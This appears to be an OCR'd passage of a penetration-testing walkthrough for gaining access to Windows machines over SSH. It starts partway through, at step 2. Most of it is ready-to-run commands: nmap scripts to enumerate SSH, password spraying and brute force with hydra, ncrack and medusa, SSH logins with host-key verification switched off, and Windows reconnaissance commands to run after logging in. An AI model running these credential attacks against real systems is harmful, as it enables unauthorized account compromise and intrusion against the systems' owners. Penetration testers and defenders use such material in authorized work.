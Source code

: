 2) SSH-specific enumeration
```bash
# Enumerate SSH algorithms (ciphers, MACs, KEX)
nmap --script ssh2-enum-algos -p22 $TARGET

# Grab host keys and fingerprints
nmap --script ssh-hostkey -p22 $TARGET

# Enumerate available authentication methods for a given username
# (use a likely username or a discovered one)
nmap --script ssh-auth-methods --script-args="ssh.user=administrator" -p22 $TARGET
```

3) Credential attacks (choose one tool)

Hydra – brute force/spray:
```bash
# Password spray: try one password across many users (safer for lockouts)
hydra -L users.txt -p Winter2024! -f -V -t 4 ssh://$TARGET

# Brute force: try many passwords per user (riskier)
hydra -L users.txt -P passwords.txt -f -V -t 4 ssh://$TARGET
```

Ncrack – optimized network auth cracking:
```bash
# Brute force with Ncrack
ncrack -v -T 3 -U users.txt -P passwords.txt ssh://$TARGET:22
```

Medusa – alternative:
```bash
medusa -h $TARGET -M ssh -U users.txt -P passwords.txt -t 4 -f -v 6
```

4) Login (Windows OpenSSH)
```bash
# Interactive SSH (accept host key automatically)
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null user@$TARGET

# Force password auth if key auth interferes
ssh -o PubkeyAuthentication=no -o PreferredAuthentications=password user@$TARGET

# Get PowerShell directly
ssh -t user@$TARGET powershell

# If SSH is on a non-standard port
ssh -p 2222 user@$TARGET
```

5) Post-auth Windows recon (run after logging in)
```cmd
whoami
whoami /priv
hostname
ver
systeminfo
ipconfig /all
net user
net localgroup administrators
```
